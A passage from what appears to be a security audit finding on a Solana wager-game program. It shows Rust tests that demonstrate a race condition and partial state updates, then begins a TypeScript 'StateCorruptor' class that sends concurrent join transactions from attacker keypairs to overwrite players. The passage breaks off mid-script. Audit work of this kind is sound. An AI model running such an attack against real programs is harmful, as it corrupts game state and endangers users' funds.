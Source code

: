 ```rust
        // Both players try to join team 0 simultaneously
        // In concurrent environment, both could pass validation
        assert_eq!(game_session.team_a.players[0], Pubkey::default());

        // Player 1 joins
        game_session.join_user(player1, 0).unwrap();

        // Due to race condition, player 2 might overwrite player 1
        // if state validation happens before player 1's update commits
        game_session.join_user(player2, 0).unwrap();

        // Result: Corrupted state where player 1 is lost
        assert_eq!(game_session.team_a.players[0], player2);
        // But player 1's spawns/kills might still be recorded
    }

    #[test]
    fn test_partial_state_update() {
        let mut game_session = create_test_game_session();

        // Simulate transaction failure during state update
        let player = Pubkey::new_unique();

        // Player info partially updated before failure
        game_session.team_a.players[0] = player;
        // Spawns updated
        game_session.team_a.player_spawns[0] = 10;
        // Kills NOT updated (simulating partial failure)
        // game_session.team_a.player_kills[0] remains uninitialized

        // State is now inconsistent
        assert_ne!(game_session.team_a.players[0], Pubkey::default());
        assert_eq!(game_session.team_a.player_kills[0], 0); // Uninitialized or wrong

        // Game logic becomes unpredictable
    }
}
```

### Real-World Attack Scenario
```typescript
class StateCorruptor {
    async corruptGameState(sessionId: string): Promise<void> {
        // 1. Identify game in WaitingForPlayers state
        const gameSession = await this.getGameSession(sessionId);

        // 2. Launch concurrent operations to create race conditions
        const joinPromises = [];
        for (let i = 0; i < 10; i++) {
            joinPromises.push(
                this.wagerProgram.methods
                    .joinUser(sessionId, 0) // All try to join team 0
                    .accounts({
                        user: this.attackerKeypairs[i].publicKey,
                        // ... other accounts
                    })
                    .signers([this.attackerKeypairs[i]])
                    .rpc()
            );
        }

        // 3. Execute simultaneously to trigger race conditions
        await Promise.allSettled(joinPromises);
```